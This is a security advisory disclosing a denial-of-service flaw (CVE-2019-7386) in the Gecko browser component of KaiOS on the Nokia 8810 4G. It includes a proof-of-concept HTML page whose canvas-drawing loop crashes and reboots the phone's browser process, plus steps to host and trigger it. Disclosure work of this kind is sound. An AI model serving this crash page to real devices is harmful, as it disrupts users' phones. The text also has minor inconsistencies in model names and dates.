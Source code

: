 =====================================================
DoS and gecko reboot in the nokia 8810 4G handset
=====================================================

. contents:: Table Of Content

Overview
========

Title:- DoS and gecko reboot in the nokia 8810 4G handset
Author: Kaustubh G. Padwad
CVE ID: CVE-2019-7386
Vendor: HMD Global, Nokia, KaiOS
Products: Nokia 88104G

Tested Version: :  
	Model :- Nokia 8810 4G
	Software : 10.05
	Kai OS Version  : 2,5
	Build Number : 10.05
	Platfirm ver : 48.0.a2
Severity: High--Critical

Advisory ID
============
KSA-Dev-007


About the Product:
==================
Brand Nokia
Developer HMD Global
Manufacturer Foxconn
Operating System :  kaios
Nokia 8110 4G is a Nokia-branded mobile phone developed by HMD Global. It was announced on 25 February 2018 at Mobile World Congress (MWC) 2018 in Barcelona, Spain, as a revival of the original Nokia 8110, which was popularly known as the "Matrix phone" or "banana phone". It runs on an operating system based on KaiOS, and through the company's partnership with Google also features Google services like Maps and Assistant.

Description: 
============

A Denial of Service issue has been discovered in the Gecko  component of KaiOS 2.5 10.05 (platform 48.0.a2) on Nokia 8810 4G devices. When a crafted web page is  visited with the internal browser, the Gecko process crashes with a  segfault. Successful exploitation could lead to the remote code
 execution on the device.

Affected Product Code Base
Nokia 8810 4G - Software : 10.05 , Kai OS Version  : 2,5 ,Build Number : 10.05 ,Platform ver : 48.0.a2


Vulnerability Class:
====================
Buffer Overflow

Attack Type
==========
Remote


Impact Denial of Service
========================
 true


Attack Vectors
==============
To exploit this vulnerability one needs to visit the crafted webpage using inbuilt browser in the device

Affected Component
the Denial of Service issue has been discovered in the the gecko component of the KaiOS used in Nokia 8810 4G, When crafted web page is
visited by internal browser of Nokia the gecko process crash with  segfault


How to Reproduce: (POC):
========================
1. Host the webpage with below contain on the controlled server Eg. 192.168.1.1 as crash.html.

<!DOCTYPE html>
<html>
<body>
  <canvas id="canvas" width="500", height="500"> </canvas>
  <script>
  var canvas = document.getElementById("canvas");
  var width = canvas.width;
  var height = canvas.height;
  for (var x=0; x < 400; x++){
    var ctx = canvas.getContext("2d");
    for (var i = 0; i < width; i += 10) {
      ctx.moveTo(i, 0);
      ctx.lineTo(i, height);
      ctx.stroke();
    }
  }
  </script>
</body>
</html>
 

2. Now visit the url http://192.168.1.1/crash.html using the inbuilt browser.

3. As soon as page render it cause the buffer overflow in skiaGL component of the gecko and cause gecko to reboot.

Mitigation
==========

Not Available 

Disclosure: 
===========
01-JAN-2019 Discoverd the Vulnerability
01-jan-2018 Reported to Nokia  
02-JAN-2019 Nokia ask to report to the HMD Global,
02-JAN-2019 Reported to HMD Global using info@hmdglobal.com (No Repsonse)
04-JAN-2019 twitted to them (No Reposne)
05-Jan-2019 Requested For CVE-ID
04-FEB-2019: CVE Assigned

credits:
========
* Kaustubh Padwad
* Information Security Researcher
* kingkaustubh@me.com
* 
* https://twitter.com/s3curityb3ast
* http://breakthesec.com
* https://www.linkedin.com/in/kaustubhpadwad

